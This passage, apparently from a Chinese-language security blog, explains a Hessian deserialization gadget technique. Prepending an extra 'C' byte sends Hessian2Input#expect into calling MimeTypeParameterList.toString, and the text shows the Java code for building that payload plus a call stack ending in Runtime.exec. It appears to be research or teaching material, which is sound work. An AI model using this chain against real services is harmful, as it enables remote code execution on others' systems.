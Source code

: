 至于 toString 方法，可以利用 `Hessian2Input#expect` 触发，这是一个用来打印类型错误信息的方法，Hessian 在反序列化时需要从数据流读取标志字节（ tag ）来判断接下来的数据是什么类型，以此来保证使用正确的方法还原对象，比如之前我们看到过 M 代表 Map 类型的对象，会调用 readMap 方法处理

当读取到的 tag 和预期不符时，会调用 `Hessian2Input#expect` 来输出错误信息，这时会将剩下的数据用 readObject 方法进行反序列化，然后和字符串拼接生成错误信息，这时候会隐式执行对象的 toString 方法

```java
Object obj = readObject();
if (obj != null) {
  return error("expected " + expect
               + " at 0x" + Integer.toHexString(ch & 0xff)
               + " " + obj.getClass().getName() + " (" + obj + ")"
               + "\n  " + context + "");
```

那么怎么触发 `Hessian2Input#expect` 呢？经过调试可以发现，在反序列化 MimeTypeParameterList 或者其他自定义对象时，会调用 readObjectDefinition 获取类名信息，这时就会使用 readString 来获取类名字符串

{{< figure src="/ox-hugo/_20241213_153000screenshot.png" >}}

{{< figure src="/ox-hugo/_20241213_153054screenshot.png" >}}

很容易想到，我们在序列化数据中，将开头代表自定义类型的标志 C 多写入一个，那么在 readString 方法中读取到的仍然是完整的 MimeTypeParameterList 对象，这时候就会因为 tag 不是代表字符串而进入 expect 方法，将 MimeTypeParameterList 反序列化，并触发它的 toString 方法

```java
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
Hessian2Output out = new Hessian2Output(byteArrayOutputStream);
out.getSerializerFactory().setAllowNonSerializable(true);
out.writeObject(object);
out.flushBuffer();

byte[] origin = byteArrayOutputStream.toByteArray();
byte[] payload = new byte[origin.length + 1];
System.arraycopy(new byte[]{'C'}, 0, payload, 0, 1);
System.arraycopy(origin, 0, payload, 1, origin.length);
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 7:</span>
  在序列化数据开头添加 C (byte)
</div>

```text
exec:347, Runtime (java.lang)
...
invoke:275, MethodUtil (sun.reflect.misc)
...
invoke:497, Method (java.lang.reflect) [1]
createValue:73, SwingLazyValue (sun.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
toString:253, MimeTypeParameterList (javax.activation)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 2:</span>
  调用栈
</div>
